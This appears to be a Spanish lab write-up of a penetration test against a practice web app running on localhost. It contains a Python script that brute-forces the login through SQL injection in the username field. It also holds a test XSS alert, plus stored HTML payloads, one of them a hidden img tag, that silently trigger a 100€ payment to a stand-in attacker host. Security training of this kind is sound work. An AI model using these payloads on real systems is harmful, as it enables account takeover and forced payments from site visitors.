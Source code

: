 # Pentesting de la Web Web_Talent-ScoutTech

# SQLi

En la pagina de login `list_players.php` cuando ponemos `"` en el usuario, y en la contrasela ponemos cualquier cosa, nos salta un error:

![imagene1.png](/img/e1a1715308d347f986417fec99980204(1).png)

Esta es la consulta que ejecuta:
`"SELECT userId, password FROM users WHERE username = """`

Usamos el diccionario personalizado que nos proporcionaron:
`["password", "123456", "12345678", "1234", "qwerty", "dragon"]`

Creamos un script en python que nos proporcione un poco de fuerza bruta ayudandonos de la sentencia `"OR password="contraseña"-- -` en el usuario y en contraseña la misma contraseña que probamos arriba en usuario.

Script:

```py
import requests

# URL del formulario de inicio de sesión
url = 'http://localhost:8080/list_players.php'

# Lista de contraseñas comunes para probar
passwords = ['password', '123456', '12345678', '1234', 'qwerty', 'dragon']

# Lista de usuarios (no se usa directamente en este script optimizado)
usernames = ["pepito", "luis", "marcos", "lucas", "eduardo", "carlos", "ana", "lorena", "ignacio", "maria"]

# Iteramos sobre cada contraseña
for password in passwords:
    # Creamos el payload con la inyección SQL
    payload = {
        'username': f'" OR password="{password}"-- -',  # Inyección SQL en el campo de usuario
        'password': password  # Contraseña actual en el ciclo
    }
    
    # Enviamos la solicitud POST al servidor
    response = requests.post(url, data=payload)
    
    # Verificamos si el inicio de sesión fue exitoso
    if 'Players list' in response.text:  # Ajustar según la respuesta real del servidor
        print(f'Login successful: Password: {password}')
        break  # Salimos del bucle si encontramos una contraseña válida
```


Ejecutamos el script:

![imagen2.png](/img/596842eb5a55467595e097021951d0c5.png)

De esta manera nos podemos loguear en la pagina web con un usuario con contraseña 1234.

Para saber el usuario he mirado en la cookies ya que se guardan en ella el usuario y la contraseña.

![imagenotra.png](/img/Captura%20de%20pantalla%202025-01-28%20182813.png)

Lo que pasa es que en el usuario aparece la sentencia que hemos usado, por lo que he tenido que seguir investigando, y descubrimos que cuando ponemos un comentario en un de los jugadores, aparece el nombre de nuestro usuario.

![imagenotra2.png](/img/Captura%20de%20pantalla%202025-01-28%20183045.png)

Por lo que ahora vamos a probrar loguearnos con ese usuario y con la contraseña 1234.

Nos logueamos:

![imagenotra3.png](/img/Captura%20de%20pantalla%202025-01-28%20183347.png)

Y volvemos a ver la cookies, y como podemos ver el loguin a sido exitoso.

![imagenotra4.png](/img/Captura%20de%20pantalla%202025-01-28%20183424.png)

---
---
---

# XSS

Las pagina `show_comments.php` es vulnerable a XSS.

Se a inyectado un codigo de prueba: `<script>alert('XSS detectado');</script>`

![41ea2774a6f97f5ef5b1b41b44b853d9.png](img/1b6f26a48af54c9391817a9d553ef49a.png)

Buscando mas paginas con XSS encontramos las siguientes:

- `insert_player.php`
- `buscador.php`

La `insert_player.php` podemos añadir condigo malicioso en el campo `Team`, por lo que cuando vean a los usuarios, le saltaran el XSS que programemos.

Añadimos codigo XSS en la pagina `insert_player.php` en el campo `Team` y añadimos un boton el cual llevaria a los usuarios a donarnos 100€.

Codigo:

```html
<a href="http://web.pagos/donate.php?amount=100&receiver=attacker" style="text-decoration: none;">
        <button>Profile</button>
</a>
```

![38b7017f2f31b6d7a005f268fb9d9384.png](img/03af9c417a2f49188163237af66cf37f(1).png)


Ahora para hacer que los usuarios que visiten la web nos agan un pago atravez de la web: `http://web.pagos/donate.php?amount=100&receiver=attacker`, podremos el enlace en un comentario con XSS dentro de uno de los perfiles.

XSS:
```html
<img src="http://web.pagos/donate.php?amount=100&receiver=attacker" style="display:none;">
```

Este codigo lo que hace es que cuando un usuario entre en los comentarios, en segundo plano se ejecute el link y nos hagan el pago.

![0a13e9f7b736f4e8f20557289873ada7.png](img/1f757a8b39e14bc0b039c9a4b7d07861(2).png)